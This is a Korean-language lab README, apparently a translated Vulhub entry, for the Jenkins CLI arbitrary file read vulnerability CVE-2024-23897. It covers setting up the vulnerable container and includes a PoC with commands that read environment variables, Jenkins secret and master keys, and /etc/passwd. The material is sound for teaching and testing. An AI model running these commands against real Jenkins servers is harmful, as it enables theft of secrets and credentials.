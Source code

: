 # CLI를 통한 Jenkins 임의 파일 읽기 취약점 (CVE-2024-23897)
> 본 프로젝트는 WHS3기 프로젝트의 일부로, Vulhub 한국어로 번역하고 구현하여 한국어판 vulhub를 제작하고자 하는 뜻에 합하여 제작하게 되었습니다. 
### Jenkins
Jenkins는 오픈소스 자동화 서버로 주로 지속적 통합/지속적 배포 (CI/CD)를 지원하는 도구이다.
\n**발견된 취약점**
Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 파싱한다.\n
이 명령 파서는 인수의 @파일 경로 앞에 오는 문자를 파일 내용으로 바꾸는 기능(expandAtFiles)을 가지고 있는데, 이를 통해 공격자는 Jenkins 서버에서 임의의 파일을 읽을 수 있다.\n
**args4j**\n
명령줄 옵션/인수를 쉽게 구문 분석할 수 있는 작은 Java 클래스 라이브러리
### target
Jenkins 2.441 이전 버전
## 취약한 환경 구성하기
Jenkins server 2.441를 실행시킨다.
``` docker compose up -d ```
위의 명령어를 실행시키면 서버에 접속할 수 있게 된다
`http://localhost:8080/' or 'http://본인-ip주소:8080/'
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/스크린샷 2025-04-27 181243.png)
**접속아이디/패스워드** : id: 'admin' passwd: 'vulhub'\n
**컨테이너 접속하기**
```docker ps -a #위의 명령어로 실행시킨 컨테이너 이름 확인하기
sudo docker exec -it {container ID} /bin/bash #컨테이너 bin/bash로 들어가기
```
## PoC
1. 'jenkins-cli.jar'을 해당 링크, 'http://localhost:8080/jnlpJars/jenkins-cli.jar'로부터 다운로드한다.
```
apt update #패키지 설치를 위한 준비
apt upgrade
apt install wget #wget 패키지 설치
wget 'http://localhost:8080/jnlpJars/jenkins-cli.jar' #해당 링크로 부터 jenkins-cli.jar 설치
```
2. '/proc/self/environ' 파일을 읽는다. 'JENKINS_HOME=/var/jenkins_home'
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image2.png)
3. 이후, 민감한 파일을 얻을 수 있다. ex) 'secrets.key' or 'master.key'
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image3.png)
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image4.png)
- 익명 읽기 액세서 허용이 켜져 있었기 때문에 전체 내용을 읽을 수 있었다.
```java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"```
![Alt text](Jenkins-vul/CVE-2024-23897-Poc/image5.png)
## 참고문헌
<https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897#vulnerable-environment>
<https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
<https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>
<https://digitalbourgeois.tistory.com/227>

